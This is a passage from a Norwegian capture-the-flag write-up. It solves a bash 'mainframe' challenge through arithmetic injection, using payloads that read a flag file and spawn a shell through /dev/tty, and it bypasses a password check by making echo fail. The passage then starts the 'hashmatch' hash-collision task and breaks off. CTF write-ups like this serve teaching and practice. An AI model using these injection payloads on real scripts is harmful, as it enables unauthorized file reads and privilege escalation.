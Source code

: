```bash
    echo "$MAINFRAME_PASSWORD"
  else
    echo "Tilgang nektet! AVSLUTTER..."
  fi
)
```

En måte jeg fant for å løse oppgaven er å forsøke en arithmetic injection i sammenlikningen `checksum == CHECKSUM_REFERENCE`. Det går an fordi vi styrer innholdet av checksum, og verdiene blir ikke escapet rett. Derfor kan vi lage en payload som dette:

```bash
arr[$(cat mainframe.flag)]
```

Problemet er at koden aldri når ned hit på grunn av denne if-setningen. Begge disse vil vanligvis returnere true og derfor vil ikke det på høyresiden av `||`-operatoren kjøre i det hele tatt. `||` fungerer litt som en `try` i dette tilfellet:

```bash
[[ "$1" != "$MAINFRAME_PASSWORD" ]] && echo "Tilgang nektet! AVSLUTTER..." || (
```

For å kjøre koden til høyre må derfor en av sjekkene over returnere false. Det kan vi gjøre ved å krasje echo. Det kan vi gjøre med å sende output til en fd som ikke fungerer:

`echo "Hello World" > /dev/full` alternativt `echo "Hello World" >&-`

Setter vi payloaden sammen blir den slik:

```bash
./mainframe 'arr[$(cat mainframe.flag)]' >&-
```

Selv om output fra funksjonen ikke synes i stdout vil det oppstå en feilmelding som sendes til stderr. Derfor vil vi den siste delen av flagget:

`mainframe.sh: syntax error: invalid arithmetic operator (error token is "3521461fe6ef5a8225b2a5d60341cf1d}")`

En utvidet løsning som tillater enda mer kontroll er å redirecte subshellet til `/dev/tty`. Da kan vi for eksempel oppnå privelege escalation inn i et nytt shell:

```bash
./mainframe 'arr[$(sh &> /dev/tty)]' > /dev/full
```


<details><summary>Flagg</summary></details>


## hashmatch

### Oppgave

Oppgaven er simpel:
Finn to strenger som starter med CyberLandsLaget2025 og hvor de 8 første og de 8 siste tegnene i sha256-hashen er identiske.
